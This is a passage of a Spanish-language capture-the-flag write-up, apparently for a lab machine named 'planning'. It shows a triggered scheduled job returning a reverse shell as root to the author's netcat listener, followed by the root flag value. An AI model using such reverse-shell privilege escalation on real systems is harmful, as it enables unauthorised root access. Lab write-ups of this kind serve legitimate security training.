 Ahora si le damos al boton `Run Now` para que se ejecute ya y volvemos a donde tenemos la escucha veremos lo siguiente:

```
listening on [any] 7755 ...
connect to [10.10.16.15] from (UNKNOWN) [10.10.11.68] 40048
bash: cannot set terminal process group (1195): Inappropriate ioctl for device
bash: no job control in this shell
root@planning:/# whoami
whoami
root
```

Veremos que ha funcionado, por lo que leeremos la `flag` de `root`.

> root.txt

```
b9c882f56b82ef2584a10c4ac391655b
```
